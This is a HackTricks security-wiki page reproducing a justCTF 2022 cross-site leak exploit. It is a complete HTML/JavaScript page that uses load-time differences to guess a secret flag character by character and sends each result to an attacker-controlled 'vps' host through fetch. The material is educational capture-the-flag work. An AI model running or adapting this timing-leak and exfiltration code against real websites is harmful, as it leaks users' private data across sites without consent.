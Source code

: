 # performance.now + Force heavy task

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

{% hint style="warning" %}
Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.
{% endhint %}

```html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <img src="https://deelay.me/30000/https://example.com">
    <script>
      fetch('https://deelay.me/30000/https://example.com')

      function send(data) {
        fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
      }

      function leak(char, callback) {
        return new Promise(resolve => {
          let ss = 'just_random_string'
          let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement('object');
          object.width = '2000px'
          object.height = '2000px'
          object.data = url;
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log('Error event triggered');
          document.body.appendChild(object);
        })
        
      }

      send('start')

      let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
      let flag = 'justCTF{'

      async function main() {
        let found = 0
        let notFound = 0
        for(let i=0;i<3;i++) {
          await leak('..')
        }
        for(let i=0; i<3; i++) {
          found += await leak('justCTF')
        }
        for(let i=0; i<3; i++) {
          notFound += await leak('NOT_FOUND123')
        }

        found /= 3
        notFound /= 3
        
        send('found flag:'+found)
        send('not found flag:'+notFound)

        let threshold = found - ((found - notFound)/2)
        send('threshold:'+threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while(true) {
          if (flag[flag.length - 1] === '}') {
            break
          }
          for(let char of charset) {
            let trying = flag + char
            let time = 0
            for(let i=0; i<3; i++) {
              time += await leak(trying)
            }
            time/=3
            send('char:'+trying+',time:'+time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
      
    </script>
</body>

</html>
```



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
